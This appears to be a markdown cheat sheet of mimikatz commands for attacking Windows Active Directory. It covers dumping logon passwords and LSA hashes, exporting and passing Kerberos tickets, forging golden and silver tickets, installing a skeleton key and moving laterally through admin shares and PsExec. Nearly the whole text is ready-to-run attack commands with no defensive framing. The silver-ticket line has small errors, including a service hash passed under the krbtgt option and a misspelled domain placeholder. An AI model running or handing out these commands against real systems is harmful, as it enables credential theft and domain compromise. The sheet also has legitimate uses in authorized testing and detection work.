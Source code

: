 # mimikatz

* [PowerShellMafia/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

## check

```bash
privilege::debug
# Privilege '20' OK => Working properly
```

## dump password / hashes

```bash
# dump logon users pass
sekurlsa::logonpasswords

# dump hashes
lsadump::lsa [/inject | /patch]
# hashcat -m 1000 <hash>
```

## Pass-the-ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# PTT using admin .kirbi 
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

## Golden / Silver Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: [krbtgt | DOMAIN_ADMIN_ACCOUNT | SERVICE_ACCOUNT] 

# create golden ticket and pass-the-ticket
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500 /ptt
# create silver ticket and pass-the-ticket
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103 /ptt

# check
misc::cmd
dir \\IP\c$ [/user:USER PASS]
PsExec.exe \\IP cmd.exe

```

## kerberos Skeleton Key

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```
